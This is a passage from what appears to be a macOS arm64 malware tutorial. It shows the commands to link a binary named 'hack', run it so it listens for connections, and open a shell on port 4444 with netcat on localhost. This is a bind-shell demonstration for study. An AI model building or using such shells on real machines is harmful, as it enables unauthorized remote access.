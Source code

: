 then linking:     

```bash
ld -arch arm64 -e _start -o hack hack.o -lSystem -syslibroot $(xcrun --sdk macosx --show-sdk-path)
```

![malware](/assets/images/176/2025-09-01_20-12.png){:class="img-responsive"}    

Then run:    

```bash
./hack
```

![malware](/assets/images/176/2025-09-01_21-09.png){:class="img-responsive"}    

Wait for incoming connections...     

Then run in the same machine (since we use localhost in shellcode):      

```bash
nc 127.0.0.1 4444
```

![malware](/assets/images/176/2025-09-01_21-18.png){:class="img-responsive"}    
